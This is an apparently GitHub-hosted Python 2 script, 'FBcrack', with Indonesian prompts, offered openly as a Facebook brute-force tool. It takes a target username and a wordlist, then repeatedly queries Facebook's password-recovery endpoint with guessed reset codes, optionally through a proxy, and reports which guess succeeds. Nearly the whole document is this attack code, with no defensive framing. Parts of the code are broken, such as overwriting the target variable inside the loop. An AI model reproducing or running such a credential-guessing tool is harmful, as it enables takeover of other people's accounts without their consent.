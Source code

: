 # loginFb
Https://github.com/Andyjajang/loginFb
#!/usr/bin/python
#FBcrack
#facebook brute force attack
#coded by 0MEST
import requests
import xml.dom.minidom as xmlget
import os
class bcolors:
    HIJAU='\033[0;32m'
    MERAH='\033[01;31m'
    NORMAL='\033[0m'
    CYAN='\033[0;36m'
    BIRU='\033[0;34m'
    PUTIH='\033[1;37m'
# Clear layar
os.system('cls' if os.name == 'nt' else 'clear')


H = '\033[95m'
B = '\033[94m'
G = '\033[92m'
W = '\033[93m'
F = '\033[91m'
E = '\033[0m'
U = '\033[4m'
O = '\033[33m'

import urllib2 ,sys ,re
import os
import ssl
import time

def cls():
    linux = 'clear'
    windows = 'cls'
    os.system([linux,windows][os.name == 'nt'])

cls()

os.system(['','color D'][os.name == 'nt'])

print bcolors.CYAN
print "     =========================================="
print "     |  _____ ____                      _     |"
print "     | |  ___| __ )  ___ _ __ __ _  ___| | __ |"
print "     | | |_  |  _ \ / __| '__/ _` |/ __| |/ / |" 
print "     | |  _| | |_) | (__| | | (_| | (__|   <  |"
print "     | |_|   |____/ \___|_|  \__,_|\___|_|\_\ |"
print "     =========================================="
print bcolors.BIRU
print "------------------------------------------------------"
print "|            (Info Tools)                            |"
print "| (+)Facebook Brute Force Attack(+)                  |"
print "| coded by : 0MEST                                   |"
print "| Date     : Monday 1-Oktober-2018                   |"
print "| Akun Fb  : andyjajang@gmail.com                  |"
print "| version  : 0.1                                     |"
print "------------------------------------------------------"+E

target = raw_input('[+] Username or Id Target : ')
wordlist = raw_input('[+] Masukkan password.txt : ')

while True:
    print """
    ============ Mode ==============
    1- (1) insert code & ganti password
    2- (2) Insert code aja.
    
    """

    choice=raw_input("Masuka  Pilihan Mu: ")

    if choice=="1":
        try:
            word = open(wordlist, 'r').readlines()
            print G+"[+] Kode Nya Tersimpan \!/\n[+] E+Codes:",len(word)
        except("IOError"):
            print "[-] Format Salah!"
            sys.exit(1);

        for w in word:
            w = w.rstrip()
            try:
                target = 'https://m.facebook.com/recover/password?u='+target+'&n='+w
                get = urllib2.urlopen(target).read()
    
            except IOError:
                print F+" Tidak ada koneksi!!"
    
            search = re.search('password_new', get)
            if search:
                print "[+] Password : "+w+" Benar."
            else:
                print O+"[+] password : "+w+" Salah. "
    else:

        print """

        Insert password membutuhkan proxy!
        masukkan proxy anda

        Penggunaan : [ip:port]


        """
        ip_proxy=raw_input("Masukan Proxy  : ")
        print "[##] Proxy Terpasang : "+ip_proxy
        proxy = urllib2.ProxyHandler({'http': ip_proxy})
        opener = urllib2.build_opener(proxy)
        urllib2.install_opener(opener)
        
        #ip = urllib2.urlopen('http://checkip.dyndns.org').read()
        #theIP = re.findall(r"\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}", ip)
        #print theIP
        #datum = response.read()
        #response.close()
        #print datum
        try:
            word = open(wordlist, 'r').readlines()
            print F+"[+] Kode Reset Tersimpan \!/\n[+] Kode:",len(word)
        except("IOError"):
            print "[-] Gagal input!!"
            sys.exit(1);

        for w in word:
            w = w.rstrip()
            try:
                target = 'https://m.facebook.com/recover/password?u='+target+'&n='+w
                get = urllib2.urlopen(target).read()
                
            except IOError:
                print " Tidak ada koneksi!!"
        
            search = re.search('password_new', get)
            if search:
                print "[+] password : "+w+" Benar."
            else:
                print "[+] password: "+w+" Salah."
    
